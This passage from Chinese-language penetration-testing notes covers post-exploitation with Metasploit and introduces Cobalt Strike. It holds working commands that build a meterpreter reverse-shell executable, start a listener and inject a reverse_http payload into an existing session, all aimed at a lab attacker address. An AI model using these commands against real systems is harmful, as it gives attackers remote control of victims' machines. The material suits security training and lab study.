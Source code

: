 ![image-20241009090438364](https://image.201068.xyz/assets/38.后渗透/image-20241009090438364.png)

##### 2.msf进行会话转移

```python
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.70.4 LPORT=8888 -f exe -o /root/tools/msf/8888.exe
```

![image-20241009093052872](https://image.201068.xyz/assets/38.后渗透/image-20241009093052872.png)

```python
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lport 8888
run
```

![image-20241009093441516](https://image.201068.xyz/assets/38.后渗透/image-20241009093441516.png)

```python
background
sessions
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.70.4
set lport 6003
set DisablePayloadHandler true
set PrependMigrate True
set session 1
run
```

![image-20241009093620861](https://image.201068.xyz/assets/38.后渗透/image-20241009093620861.png)

![image-20241009093645801](https://image.201068.xyz/assets/38.后渗透/image-20241009093645801.png)

# CS基础介绍

## Cobalt Strike 后渗透工具

### 介绍

Cobalt Strike 一款以Metasploit为基础的GUI框架式渗透测试工具，集成了**端口转发.服务扫描，自动化溢出，多模式端口监听，exe.powershell木马生成**等。

**钓鱼攻击包括**：站点克隆，目标信息获取，java执行，浏览器自动攻击等。

Cobalt Strike 主要用于团队作战，可谓是团队渗透神器，能让多个攻击者同时连接到团体服务器上，共享攻击资源与目标信息和sessions。


Cobalt Strike 作为一款协同APT工具，针对内网的渗透测试和作为apt的控制终端功能，使其变成众多APT组织的首选。
